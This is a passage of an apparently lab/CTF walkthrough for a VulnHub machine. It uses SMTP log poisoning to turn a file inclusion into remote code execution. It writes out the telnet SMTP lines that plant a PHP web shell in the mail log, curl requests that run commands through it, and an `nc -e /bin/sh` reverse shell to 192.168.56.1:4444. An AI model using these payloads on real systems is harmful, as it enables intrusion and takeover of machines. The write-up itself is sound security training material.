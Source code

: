 Since we have access to log we can exploit this to get an RCE using smtp server. We can send the `PHP` code in the email and then try to access the log(`log poising`)

Using telnet connect to the port 25 and run the following one by one:

```
MAIL FROM:<mzfr@vulnhub.com>
RCPT TO:<?php echo system($_POST['cmd']); ?>
```

![](images/mute/exploit.png)

To test if our poisioning worked or not run the following command:

```bash
➜  curl -X POST http://192.168.56.102/turing-bolo/bolo.php\?bolo\=/var/log/mail --data "cmd=ls"
```

![](images/mute/output.png)

We can see the directory listing and since we got RCE we can get a reverse shell from this.

Run: `➜  curl -X POST http://192.168.56.102/turing-bolo/bolo.php\?bolo\=/var/log/mail --data "cmd=nc -e /bin/sh 192.168.56.1 4444"`

![](images/mute/shell.png)
